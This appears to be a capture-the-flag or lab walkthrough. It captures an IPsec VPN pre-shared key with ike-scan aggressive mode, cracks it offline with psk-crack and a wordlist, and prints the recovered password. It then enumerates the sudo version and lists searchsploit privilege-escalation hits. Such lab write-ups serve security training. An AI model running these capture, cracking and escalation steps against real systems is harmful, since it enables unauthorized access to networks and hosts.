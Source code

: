 ## PSK Handshake Capture / Full Aggressive Mode
```bash
# Full Aggressive Mode with parameter output
sudo ike-scan -M -A -P ike.psk 10.10.11.87
```

> 💡 Tip: `-M` saves material (e.g., `ike.psk`) for offline cracking.

---

## PSK Extraction & Cracking

```bash
# Crack extracted PSK (example using psk-crack)
psk-crack -d /usr/share/wordlists/rockyou.txt ike.psk
```

Successful example:
```text
key "freakingrockstarontheroad" matches SHA1 hash ...
```

**Recovered password (from crack):** `freakingrockstarontheroad`

---

# sudo Enumeration & Privilege Escalation

Goal: Check for local vulnerabilities or misconfigurations that lead to root.

## Check sudo version
```bash
# On target (logged-in user)
sudo -V
```

Example:
```text
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
```

## Search for exploits
Use `searchsploit` to look for matching vulnerabilities.

```bash
searchsploit sudo
```

Relevant hits:
```
Sudo 1.9.17 Host Option - Elevation of Privilege   | linux/local/52354.txt
Sudo chroot 1.9.17 - Local Privilege Escalation   | linux/local/52352.txt
```
